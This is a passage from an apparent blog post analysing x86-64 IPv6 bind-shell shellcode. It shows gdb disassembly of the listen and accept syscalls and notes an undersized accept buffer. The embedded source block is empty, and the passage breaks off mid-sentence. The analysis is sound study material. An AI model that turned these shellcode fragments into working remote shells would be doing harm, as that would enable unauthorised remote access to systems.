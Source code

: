 ```nasm
```

<figcaption class="figure-caption">Analysis of the binding operation</figcaption>

As shown in the snippet above, the author of the shellcode used a structure of 24 bytes, which corresponds with `sockaddr_in6`.

You can find more information regarding the IPv6 protocol and its data structure in the page below:

<figure class="kg-card kg-bookmark-card"><a class="kg-bookmark-container" href="https://man7.org/linux/man-pages/man7/ipv6.7.html"><div class="kg-bookmark-content"><div class="kg-bookmark-title">ipv6(7) - Linux manual page</div><div class="kg-bookmark-description"></div><div class="kg-bookmark-metadata"><span class="kg-bookmark-author">Linux manual page</span></div></div><div class="kg-bookmark-thumbnail"><img src="https://man7.org/tlpi/cover/TLPI-front-cover-vsmall.png" alt=""></div></a>

## Listening

After the binding operation, the shellcode should now perform a call to the `listen` function:

```nasm
(gdb) x/5i $pc
=> 0x40009d:    push   0x32      ; use syscall 0x32: listen
   0x40009f:    pop    rax
   
   0x4000a0:    push   0x1       ; 2nd parameter of listen: backlog
   0x4000a2:    pop    rsi       ; i.e. max. number of connections
   0x4000a3:    syscall
```

<figcaption class="figure-caption">Set socket as passive</figcaption>

You can find more information about the syscall `listen` visiting the link below:

<figure class="kg-card kg-bookmark-card"><a class="kg-bookmark-container" href="https://man7.org/linux/man-pages/man2/listen.2.html"><div class="kg-bookmark-content"><div class="kg-bookmark-title">listen(2) - Linux manual page</div><div class="kg-bookmark-description"></div><div class="kg-bookmark-metadata"><span class="kg-bookmark-author">Linux manual page</span></div></div><div class="kg-bookmark-thumbnail"><img src="https://man7.org/tlpi/cover/TLPI-front-cover-vsmall.png" alt=""></div></a>

## Accepting Connections

After that call to the syscall `listen`, we have the following block of instructions:

```nasm
(gdb) x/10i $pc
=> 0x4000a5:    push   0x2b
   0x4000a7:    pop    rax
   0x4000a8:    cdq    
   0x4000a9:    push   rdx
   0x4000aa:    push   rdx
   0x4000ab:    push   rsp
   0x4000ac:    pop    rsi
   0x4000ad:    push   0x1c
   0x4000af:    lea    rdx,[rsp]
   0x4000b3:    syscall 
```

Analyzing them, I found out that it performs some weird operations: it calls the syscall `accept` in order to allow the listening socket to receive a connection, however it doesn't allocate 28 bytes of memory as done before for the `bind` syscall.

Instead, it only allocates 16 bytes, which isn't nearly enough for an IPv6 address:
